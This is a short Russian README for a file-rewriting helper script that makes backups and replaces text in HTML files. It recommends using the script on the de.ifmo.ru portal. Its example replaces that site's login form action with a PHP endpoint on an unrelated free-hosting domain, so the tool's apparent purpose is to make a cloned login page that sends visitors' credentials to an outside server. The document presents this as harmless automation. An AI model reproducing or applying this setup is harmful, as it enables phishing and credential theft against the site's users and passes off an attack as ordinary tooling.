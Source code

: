 ﻿#HelperScript

В ходе работы возникла задача автоматической обработки нескольких документов по определенным правилам.

Данный скрипт
* позволяет произвести действия по замене частей файлов
* можно указать требуемые типы файлов
* делает бекапы файлов

Советуется применить этот скрипт к de.ifmo.ru 

Параметры скрипта
* <b>dirname</b> - папка с новыми файлами (по умолчанию !new)
* <b>backupdir</b> - папка с бекапом файлов (по умолчанию !old)
* <b>format</b> - какие документы (формат) изменяем (по умолчанию .html)
* <b>old</b> - что меняем (не забываем про экранирование кавычек обратным слешем) (например, "id=\"logonForm\" action=\"https://de.ifmo.ru/servlet/\"")
* <b>new</b> - на что меняем (при необходимости можно прогнать несколько раз) (например, "id=\"logonForm2\" action=\"http://flagruger.16mb.com/2.php/\"")
